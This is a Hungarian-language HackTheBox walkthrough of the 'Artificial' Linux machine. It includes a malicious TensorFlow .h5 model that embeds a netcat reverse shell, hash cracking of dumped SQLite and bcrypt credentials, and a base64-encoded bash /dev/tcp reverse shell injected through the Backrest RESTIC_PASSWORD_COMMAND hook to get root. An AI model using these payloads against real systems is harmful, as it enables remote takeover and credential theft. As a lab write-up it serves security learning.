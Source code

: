 **Platform:** Linux\
**IP:** 10.10.11.74\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -T4 10.10.11.74
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts szerkesztés:**

```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enum

A weboldal login + regisztrációs lehetőséget ad. Sikeres regisztráció után .h5 fájlokat lehet feltölteni.

### Malicious TensorFlow modell generálása (tenserflow-cpu==2.13.1 a követelmény)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker parancs:**

```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

Feltöltés után:

```bash
nc -lvnp 4444
```

---

## SQLite Database Enum

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Megvan: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Hash crack (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Talált jelszavak:

```
mattp005
marwinn
```

---

## PrivEsc (Backup leak)

A `redteam-launcher` segíségével átnézve a backupokat(https://github.com/No4Sec/redteam-launcher):

```
/var/backups/backrest_backup.tar.gz
```

**Letöltés HTTP szerveren keresztül:**

```bash
cd /var/backups
python3 -m http.server
```

**Kalin:**

```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Kitömörítés:**

```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**

```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode után:

```bash
cat hash.txt | base64 -d
```

John bcrypt:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## 🚪 Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Feltérépezés után megtalálható a Backrest login felület.

A korábban dumpolt jelszóval belépés után új repo-t adunk hozzá.

**Env variable exploit:**

```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Fontos:** a `Hook` mezőbe ezt állítsuk be:

```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Miért base64?** A mező nem kezeli rendesen az értelemmel rendelkezo parancsokat, ezért jobb base64-ben beküldeni, majd `-d | bash` dekódolja.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Majd submit, és shell vissza root joggal:

```bash
nc -lvnp 4444
```

```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---


## Összegzés

Az Artificial egy könnyű, mégis kreatív kihívás, ami több különböző vektort is összefűz:
- Gépi tanulási modellből indított reverse shell
- SQLite adatbázis feltárása és hash törés
- Backup fájlból kiszedett bcrypt jelszó
- RESTIC környezeti változón keresztüli RCE, ami végül root shellhez vezet

Külön érdekesség volt a `.h5` fájl alapú Tensorflow modellben elrejtett shellkód, valamint a RESTIC hook exploit, ami egy igazi hidden gem.

**Tanulság:**
- Soha ne bízz meg a feltöltött fájlokban
- Ne futtass backup szolgáltatást rootként ha nem muszáj
- És mindig nézd át a `.tar.gz` fájlokat – lehet benne meglepetés :)

---

## Root megvan. On to the next one. //

